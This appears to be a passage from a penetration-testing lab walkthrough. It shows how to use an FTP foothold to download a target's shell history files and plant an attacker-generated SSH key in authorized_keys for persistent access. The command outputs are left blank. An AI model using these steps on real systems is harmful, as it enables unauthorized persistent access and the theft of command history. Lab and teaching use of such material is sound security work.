






Uploading SSH key which means we will try to inject our created SSH key inside the host machine and access the tty shell of the host machine via ssh and this can be achieved when we will create an .ssh named folder and upload our ssh key inside it.
From the earlier step we're on a ftp shell.
a) Let's list all the files with “ls”.
ftp> ls
Output: 
b) Get “.bash_histoy” and “.sh_history” files.
ftp> get .sh_history
Output: 
ftp> get .bash_history
Output: 
c) Create a fokder called “.ssh”.
ftp> mkdir .ssh
Output:
d) On your Kali Machine create a “ssh key” with a blank passphrase using “ssh-keygen”.
$ ssh-keygen
Output: 
$ cd .ssh $ ls $ cat id_rsa.pub
Output: 
e) Copy “id_rsa.pub” file into another file and named “authorized_keys”.
$ cp id_rsa.pub authorized_keys
f) On the FTP shell upload “authorized_keys” file inside the “.ssh” directory which we have created earlier. Before doing it go to your Kali Machine shell and “.ssh” folder.
ftp> cd .ssh ftp> put authorized_keys
Output: 
Note:
If you upload a file to a mistaken folder on ftp use this command to move it.
ftp> mget authorized_keys ftp> cd .ssh ftp> mput authorized_keys